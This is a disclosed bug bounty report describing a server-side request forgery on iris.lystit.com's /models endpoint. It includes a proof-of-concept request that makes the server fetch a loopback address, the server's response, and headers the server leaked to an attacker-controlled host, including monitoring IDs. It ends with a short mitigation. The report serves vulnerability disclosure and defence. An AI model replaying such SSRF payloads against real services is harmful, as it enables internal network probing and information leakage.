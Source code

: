 # SSRF at iris.lystit.com

## Report Details
- **Report ID**: 206894
- **URL**: https://hackerone.com/reports/206894
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-02-16T14:13:21.528Z
- **Disclosed**: 2017-10-18T09:43:49.380Z

## Reporter
- **Username**: tripwire
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lyst

## Vulnerability Information
###Server Side Request Forgery

**Host**: `iris.lystit.com`
**Route**: `/models`

**Summary**
This vulnerability allows unauthenticated attacker to make arbitrary server-side HTTP GET requests, e.g. issue HTTP-requests to internal hosts and resources, limitedly scan ports, potentially bypass some restrictions for incoming requests, etc. 


###PoC
Reaching same REST application via local IP 127.0.0.1 at port 8080:

```
POST /models/default/classification/color HTTP/1.1
Host: iris.lystit.com
Accept: application/json
Content-Length: 111
Content-Type: application/json
Connection: close

{
    "images": ["http://127.0.0.1:8080/static/rest_framework_swagger/images/wordnik_api.86c91314ec1a.png"]
}
```

Response:
```
HTTP/1.1 200 OK
Allow: POST, OPTIONS
Content-Type: application/json
Date: Thu, 16 Feb 2017 13:05:28 GMT
Vary: Cookie
X-Frame-Options: SAMEORIGIN
Content-Length: 76
Connection: Close

{"data":{"color":{"probability":"0.903368339285","id":12,"value":"orange"}}}
```

Requesting attacker-controlled host leaks IP and these headers:

```
Request: GET / HTTP/1.0
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.7.0 CPython/2.7.6 Linux/3.13.0-108-generic
X-NewRelic-ID: VgQPVFBTGwIGXFdQDwAC
X-NewRelic-Transaction: PxQEBwVQDQoEAldbVQMPXlBSFB8EBw8RVU4aUV5bBwcKUV9XCAMBWlwCVENKQQ8AUgdXUw9VFTs=
```

###Possible Mitigation Measures

Add whitelist to allow use of only trusted domains.

## Attachments
No attachments
